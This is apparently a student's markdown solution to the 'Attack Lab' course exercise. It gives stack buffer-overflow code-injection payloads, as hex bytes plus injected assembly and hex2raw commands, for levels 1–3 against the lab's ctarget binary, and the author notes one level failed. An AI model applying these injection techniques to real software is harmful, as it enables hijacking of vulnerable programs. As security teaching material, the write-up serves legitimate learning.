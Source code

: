 # Solution of Attack Lab
## Code Injection Attacks
### Level 1
Use buffer overflow to rewrite the return address.    
```
disas touch1
```
We get the address of touch1: 0x4017c0. Remember that x86 write data in little-end order, that means the address is c0 17 40. And in x86-64, the address is referred by 64 bits (8 bytes). That is, we should write ```c0 17 40 00 00 00 00 00``` into the 'ret' address of 'getbuf'. In 'getbuf', 0x28 (40) bytes are allocated, so we fill the space with 40 zeros and end with 'touch1' enter address:    
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
Above is the machine code represented input, use 'hex2raw' to convert to string input:      
```./hex2raw -i touch1.txt | ./ctarget -q```

### Level 2
In level 2, we not only need to enter touch2, but also need to set the input 'val' to intended value, which is the same as our cookie '0x59b997fa'. Thus, the operation we need to do is:    
```
movq 0x59b997fa, %rdi
pushq 0x4017ec
ret
```
Convert to machine code:
```
gcc -c touch2_insert.s
objdump -d inject.o
```
We get:
```
48 8b 3c 25 fa 97 b9 59
ff 34 25 ec 17 40 00
c3
```
To insert these codes, we store them in the array in 'getbuf', and rewrite the 'ret' address so that getbuf can return to our codes. Use GDB to get the address of %rsp, where the array starts.     
```
break getbuf
run -q
disas
stepi
p $rsp
```
We get the address of rsp is: %0x5561dc78. Then we form the input like level1:
```
48 8b 3c 25 fa 97 b9 59 ff 34 
25 ec 17 40 00 c3 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
```./hex2raw -i touch2.txt | ./ctarget -q```
It's likely that gcc version is slighly different, so I failed to pass touch2 even I called it successfully.

### Level 3
In this level we need to input "59b997fa" as a string, set %rdi to its address so the string can be convey to touch3 (0x).    
```
movq address, %rdi
pushq 0x4018fa
ret
```
During the process, the function call order is: test->getbuf->touch3. Because in touch3->hexmatch, "char \*s = cbuf + random() % 100;", which means the stack frame of previous function could be polluted. So we should put the cookie string in a safer place, such as in 'test'. So the solution is obvious: In getbuf, we write operations in the array, rewrite the 'ret' address to the array head, and write "59b997fa" after the 'ret' address, which is part of the frame of 'test'.    
Frist break at the start of getbuf, we print %rsp = 0x5561dca0. So the %rsp of 'test' starts from 0x5561dca8.
Insert code:    
```
movq 0x5561dca8, %rdi
pushq 0x4018fa
ret
```
Disassemble it:
```
0000000000000000 <.text>:
   0:	48 8b 3c 25 a8 dc 61 	mov    0x5561dca8,%rdi
   7:	55 
   8:	ff 34 25 fa 18 40 00 	pushq  0x4018fa
   f:	c3                   	retq 
```
Then find the machine code of '59b997fa' using ```man ascii```:    
35 39 62 39 39 37 66 61 00    
Form the input:
```
48 8b 3c 25 a8 dc 61 55 ff 34 
25 fa 18 40 00 c3 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39 
62 39 39 37 66 61 00 
```
```./hex2raw -i touch3.txt | ./ctarget -q```

## Return-Oriented Programming
### ROP level 2


